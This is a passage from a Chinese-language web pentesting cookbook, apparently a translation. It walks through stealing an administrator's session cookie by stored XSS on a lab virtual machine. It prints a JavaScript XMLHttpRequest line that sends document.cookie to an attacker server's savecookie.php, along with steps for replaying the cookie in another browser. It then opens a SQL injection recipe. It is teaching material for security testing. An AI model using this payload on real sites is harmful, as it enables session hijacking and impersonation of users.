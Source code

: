 9.  让我们再次检查 Cookie 文件的内容：

    ```
    cat /tmp/cookie_data.txt 
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-6-3.jpg)
    
    最后一个条目由受害者的浏览器中的用户生成。
    
0.  现在在攻击者的浏览器中，确保你没有登录，并打开 Cookies Manager+（在 Mantra 的菜单中，`Tools | Application Auditing | Cookies Manager+`）。

1.  选择 192.168.56.102（vulnerable_vm）的`PHPSESSID ` Cookie。并点击`Edit`。

2.  从` /tmp/cookie_data.txt`复制最后一个 Cookie。之后将其粘贴到`Content`字段中，像这样：

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-6-4.jpg)
    
3.  点击`Save`，之后点击`Close`并在攻击者的浏览器中重新加载页面。

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-6-5.jpg)
    
    现在我们通过持久性 XSS 攻击劫持了管理员的会话。
    
### 工作原理

简单来说，我们使用应用中的 XSS 漏洞来将会话 Cookie 发送给远程服务器，通过 JavaScript HTTP 请求。这个服务器被配置用于储存会话 Cookie，之后，我们获得一个会话 ID，并把它移植到不同的浏览器中来劫持验证用户的会话。下面，我们来看看每一步如何工作。

我们编写的 PHP 文件用于在 XSS 攻击执行时保存收到的 COokie。

我们输入的评论是一个脚本，使用 JavaScript 的 XMLHttpRequest 对象来向我们的恶意服务器发送 HTTP 请求，这个请求由两步构建：

```js
xmlHttp.open( "GET", "http://192.168.56.1/savecookie.php?cookie=" + document.cookie, true );
```

我们使用 GET 方法打开请求，向`http://192.168.56.1/savecookie.php` URL 添加叫做`cookie`的参数，它的值储存在`document.cookie`中，它是 JavaScript 中储存 cookie 值的变量。最后的参数设置为`true`，告诉浏览器这是异步请求，这意味着它不需要等待响应。

```js
xmlHttp.send( null )
```

最后的指令将请求发送给服务器。

在管理员登录并查看包含我们所发送评论的页面之后，脚本会执行，并且管理员的会话 cookie 就储存在我们的服务器中了。

最后，一旦我们获得了有效用户的会话 cookie，我们可以在浏览器中替换我们自己的会话 cookie，之后重新加载页面来执行操作，就像我们是这个用户一样。

### 更多

不仅仅是保存会话 Cookie 到文件，恶意服务器也可以使用这些 cookie 来向应用发送请求来冒充正常用户，以便执行操作，例如添加或删除评论、上传图片或创建新用户，甚至是管理员。

## 6.7 逐步执行基本的 SQL 注入

我们在第四章了解了如何检测 SQL 注入。这个秘籍中，我们会利用这个注入，并提取数据库的信息。
